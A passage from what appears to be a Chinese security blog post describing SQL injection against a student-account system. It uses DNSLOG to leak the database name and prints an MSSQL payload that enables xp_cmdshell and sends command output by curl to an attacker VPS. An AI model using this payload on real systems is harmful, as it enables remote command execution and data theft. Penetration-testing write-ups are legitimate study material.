 登录学生账号请求对应文件：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWj6JfLM1E3jicsytgn2qXoa1CnC7ZicDX2wkZMZGvIRthA1sgqqbnKGNpN05QIiazefsdGfuUZ8Ydtg/640?wx_fmt=png&from=appmsg "")  
  
此时查看DNSLOG的解析记录：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWj6JfLM1E3jicsytgn2qXoadliaten0cE4yWVawzCCL1syiaSPa4EInvwuPddn2Z51icVrlZrDTTpRQA/640?wx_fmt=png&from=appmsg "")  
  
成功将数据库名带出！  
  
那么接下来便是想要执行命令，这里便有一个踩坑：  
  
**由于在超管权限下看到的系统管理菜单处是LINUX系统**  
：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWj6JfLM1E3jicsytgn2qXoavpqIsxnGKZNqpJMGiaZYibUhP46NTlibdDMMqibNgMAY08zR3AJuGcffDA/640?wx_fmt=png&from=appmsg "")  
  
所以便一直进行LINUX的命令执行，像是ls之类的命令。  
  
后续再测试执行**windows命令**  
才成功执行，此时才反应过来这套系统是典型的**站库分离**  
，即**WEB服务系统主机和数据库主机是分离开的**  
。  
  
那么修改SQL语句为执行dir命令：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWj6JfLM1E3jicsytgn2qXoa9xoXNT1IAISHDvje3nNLLf18QArJkHywaprqdlW61ckk5VXXJTIj5Q/640?wx_fmt=png&from=appmsg "")  
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell 'dir 2>&1 | curl -X POST --data @- http://ip:port ';

```  
  
成功在VPS上获得命令回显！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWj6JfLM1E3jicsytgn2qXoadrVias5SQGLW6j49BjOxK07j8v1JVNxRblbkoNdNwfEftuapSKiaWxDA/640?wx_fmt=png&from=appmsg "")  
  
  
**内部小圈子详情介绍**  
  
  
  
我们是  
神农安全  
，点赞 + 在看  
 铁铁们点起来，最后祝大家都能心想事成、发大财、行大运。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mngWTkJEOYJDOsevNTXW8ERI6DU2dZSH3Wd1AqGpw29ibCuYsmdMhUraS4MsYwyjuoB8eIFIicvoVuazwCV79t8A/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/MVPvEL7Qg0F0PmZricIVE4aZnhtO9Ap086iau0Y0jfCXicYKq3CCX9qSib3Xlb2CWzYLOn4icaWruKmYMvqSgk1I0Aw/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**内部圈子介绍**  
  